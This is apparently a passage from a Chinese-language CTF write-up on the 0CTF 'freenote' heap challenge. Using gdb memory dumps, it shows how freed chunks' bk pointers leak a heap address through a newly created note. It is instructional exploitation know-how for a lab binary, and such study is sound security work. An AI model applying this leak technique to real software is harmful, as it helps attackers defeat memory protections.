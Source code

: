这里`bins[0]`是刚刚`free`掉的`0x604940`，而`bins[1]`是最开始`free`掉的`0x604820`。free chunks的链表如下：

{% highlight bash %}
gdb-peda$ x/4gx 0x604940
0x604940:       0x0000000000000000      0x0000000000000091
0x604950:       0x0000000000604820      0x00007ffff7dd67b8
gdb-peda$ x/4gx 0x604820
0x604820:       0x0000000000000000      0x0000000000000091
0x604830:       0x00007ffff7dd67b8      0x0000000000604940
gdb-peda$ x/4gx 0x00007ffff7dd67b8
0x7ffff7dd67b8 <main_arena+88>: 0x0000000000604a60      0x0000000000000000
0x7ffff7dd67c8 <main_arena+104>:        0x0000000000604940      0x0000000000604820
{% endhighlight %}

于是，`0x604820`那里的`bk`，即位于`0x604838`的`0x604940`，指向的就是note2的chunk的地址。那么接下来，我们再创建一个同样大小的note（长度为8, 被近似到128进行`malloc`），那么就会被分配到最开始`free`的`0x604820`那里（因为bins是FIFO）。我们提供的8 bytes的内容之后，紧跟着的就是`bk`。由此。通过打印这个刚刚创建的note的内容，就可以在我们提供的8 bytes后面得到某个chunk的地址，进而得到heap的地址。

下面是我们`free`掉note2后再创建新note的情况：

{% highlight bash %}
gdb-peda$ p main_arena 
$9 = {
  mutex = 0x0, 
  flags = 0x1, 
  fastbinsY = {0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}, 
  top = 0x604a60, 
  last_remainder = 0x0, 
  bins = {0x604940, 0x604940, 0x7ffff7dd67c8 <main_arena+104>,...
{% endhighlight %}

可以看到，`0x604820`被新创建的note用掉了，所以被从bins双向链表里去掉了：

{% highlight bash %}
gdb-peda$ x/4gx 0x604940
0x604940:       0x0000000000000000      0x0000000000000091
0x604950:       0x00007ffff7dd67b8      0x00007ffff7dd67b8
gdb-peda$ x/4gx 0x00007ffff7dd67b8
0x7ffff7dd67b8 <main_arena+88>: 0x0000000000604a60      0x0000000000000000
0x7ffff7dd67c8 <main_arena+104>:        0x0000000000604940      0x0000000000604940
{% endhighlight %}

查看这个新note的内容：

{% highlight bash %}
gdb-peda$ x/4gx 0x604820
0x604820:       0x0000000000000000      0x0000000000000091
0x604830:       0x3837363534333231      0x0000000000604940
{% endhighlight %}

看到我们提供的内容`"12345678"=0x3837363534333231`之后就是`bk`指针，没有被破坏掉，我们通过打印note内容就可以得到这一地址。

通过[villoc](https://github.com/wapiflapi/villoc)，我们可以将刚才的过程用图片显示出来：

{::nomarkdown}
<iframe width="100%" height="666px" src=/img/in-posts/0ctf-freenote/1.html></iframe>
{:/nomarkdown}
